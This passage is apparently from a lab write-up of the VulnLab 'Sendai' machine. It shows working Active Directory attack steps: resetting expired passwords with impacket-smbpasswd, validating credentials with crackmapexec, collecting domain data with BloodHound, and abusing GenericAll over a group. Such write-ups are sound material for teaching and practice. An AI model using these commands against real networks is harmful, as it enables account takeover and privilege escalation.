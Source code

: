 As noted from the code snippet above, it seems as though `Elliot.Yates` and `Thomas.Powell` both have their passwords reset.

We can reset these passwords using Impacket's built-in `smbpasswd` tool, which will reset the passwords of the users we give it.

```
└─$ impacket-smbpasswd sendai.vl/'Elliot.Yates'@10.10.98.227 -newpass 'Password123@'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

===============================================================================
  Warning: This functionality will be deprecated in the next Impacket version  
===============================================================================

Current SMB password: 
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

We can then test the users authentication to LDAP using `crackmapexec`.

```
└─$ crackmapexec ldap 10.10.98.227 -u 'Elliot.Yates' -p 'Password123@'              
SMB         10.10.98.227   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAP        10.10.98.227   389    DC               [+] sendai.vl\Elliot.Yates:Password123@
```

Now that we have a valid user in LDAP, let's dump the domain using Bloodhound along with its [Python ingestor](https://github.com/dirkjanm/BloodHound.py).

```
└─$ bloodhound-python -d 'sendai.vl' -u 'Elliot.Yates' -p 'Password123@' -c all -ns 10.10.98.227 --zip
```

# MGTSVC Method #1 - LDAP

At this point, there are two methods that you can use to get user. The intended path is to go through LDAP in order to escalate privileges, however there is also a web-focused path that I will cover after the intended.

If you take a look over at Bloodhound, you'll notice that our user `Elliot.Yates` has an interesting outbound object control.

![](/images/vulnlab/sendai-vl/d.png)

It seems that we are apart of the `Support` domain group. Due to us being within the `Support` domain group, we are automatically given the right to have `GenericAll` over the `admsvc` domain group. I've had this privilege before, however it's mainly been on either domain user or domain computers. The difference here is that this privilege is against a group - though it can also allow us to add our current user to that group.

We can do so by using the default RPC package that comes built-in with Kali. This tool, `net rpc`, can allow us to modify the domain group and add ourselves to it.
